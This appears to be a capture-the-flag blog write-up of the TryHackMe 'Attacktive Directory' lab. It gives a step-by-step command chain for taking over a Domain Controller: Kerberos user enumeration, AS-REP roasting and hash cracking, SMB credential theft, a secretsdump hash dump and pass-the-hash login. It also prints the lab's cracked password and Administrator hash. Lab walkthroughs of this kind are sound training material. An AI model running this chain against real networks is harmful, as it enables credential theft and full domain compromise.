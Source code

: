 ```yaml
---
title: "Attacktive Directory"
date: 2022-03-05 08:00:00 -0400
categories: [red-team]
tags: [red-team,thm]
image:
    path: /assets/img/posts/attacktivedirectory/thumbnail.jpg
--- 
```


<style>
  .body {
    display:block;
  }
</style>

## Attacktive Directory

In this room we will be using the following tools to compromise a Domain Controller (DC) in order to gain access to the crown jewels of the environment:

Tools Used: Nmap, Kerbrute, Impacket, Enum4Linux, Hashcat, SMBClient, and Secretsdump

TryHackMe Link: https://tryhackme.com/room/attackivedirectory

We will begin with an nmap scan to see what ports are open on the host and what services they are running.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -sC -Pn -sV 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image1.png"></p>

Next in our steps to enumerating our host for ports 139/445 we will use the tool enum4linux in order to get very useful information on the domain. For this room we will need to locate the domain name from the output of the tool. Part of the output of this command will give you the answer to the NetBIOS-Domain Name which is THM-AD.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ enum4linux -a 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image2.png"></p>

The invalid domain that is typically seen in the Active Directory (AD) domain environments is .local. 

Next we will want to enumerate for valid usernames using the tool userenum.  In order to run this tool we will need to install the tool kerbrute.  To do this we will do the following steps which will require that pip3 and git be installed:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ git clone https://github.com/tarlogicsecurity/kerbrute 
Cloning into 'kerbrute' ... 
$ cd kerbrute 
$ pip3 install -r requirements
```

Using the command python3 kerbrute -h we are able to get all the options that this tool has to offer:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image6.png"></p>


But first we will need the users and password lists that were provided.  To get these we will use the wget command in order to download both the Users List and the Password List

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image7.png"></p>

Next, the command that will be used to enumerate valid username is userenum, however the tool does user enumeration by default using the following command:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image8.png"></p>

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py -dc-ip 10.10.7.82 -domain spookysec.local -users userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image9.png"></p>


After running the command you should notice two accounts that are the answer to the next two questions for notable accounts; svc-admin and backup.

The account svc-admin returned “[NOT PREAUTH]” which means we could potentially query a ticket with this account with no password.

In order to request a ticket we will use the impacket tool GetNPUsers.py.  This python 3 file will be located in /usr/share/doc/python3-impacket/examples by default.  The syntax for the command to request the ticket from the AD server is:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image10.png"></p>


You will want to copy and paste the hash into a file for further reference. When navigating to the Hashcat Examples Wiki we see the the Kerberos hash we captured for svc-admin is Kerberos 5 AS-REP etype 23.

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image11.png"></p>

As shown above in the screenshot from the wiki, the mode that will be used in hashcat is 18200. To crack the password we will use the following command with hashcat:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ hashcat svc-admin-hash.txt -a 0 -m 18200 -O passwordlist.txt –force
hashcat (v6.2.5) starting
```

From the output of the hashcat tool we have discovered the the password for the svc-admin account is management2005

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image13.png"></p>

Next we want to enumerate SMB since we noticed that port 139 was open on our original nmap scan of the server.   This can be done by using the tool smbclient and using the option -L to list the shares using the credentials we just cracked.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient -L \\\\10.10.121.181 -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image14.png"></p>

There are a total of 6 remote shares that the server lists.  We will need to connect to each share to see which one(s) we have access to.  For this machine we have access to the backup share where the file backup_credentials.txt is stored.  We will use the get command to pull this file off the smb share.


```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient \\\\10.10.121.181\\backup -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image15.png"></p>

When we cat the file we get the contents of the backup_credentials.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image16.png"></p>

To decode this we will use the command line tool to convert from base64 using the following command

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image17.png"></p>

The backup account has AD permission that allows all AD changes to be synced with this user account.  We can use the tool secresdump.py to retrieve all password hashes in the AD forest environment. 

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 secretsdump.py -just-dc-ntlm spookysec.local/backup@10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image18.png"></p>

We were able to dump the credentials of the domain users using the DRSUAPI method.  The NTLM hash of the Administrator account is 0e0363213e37b94221497260b0bcb4fc. In order to use these credentials on the system we can attempt to use Pass the Hash.  This means that instead of authentication with a password we can authenticate with the hash of the password.  We will do this by using the tool Evil-WinRM where the option -H allows us to insert the hash of the administrator account.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ evil-winrm -i 10.10.121.181 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image19.png"></p>

At this point we fully own this box and have administrator on the DC.  To get the flags for svc-admin, backup, and Administrator use commands within the evil-winrm shell to find them.

The Administrator account will have the file root.txt. 

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image20.png"></p>

The backup account will have the file PrivEsc.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image21.png"></p>

The svc-admin account will have the file user.txt.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image22.png"></p>

If you have made it this far successfully then congrats you have successfully compromised a Domain Controller (DC) and have the crown jewels of the Windows enterprise environment.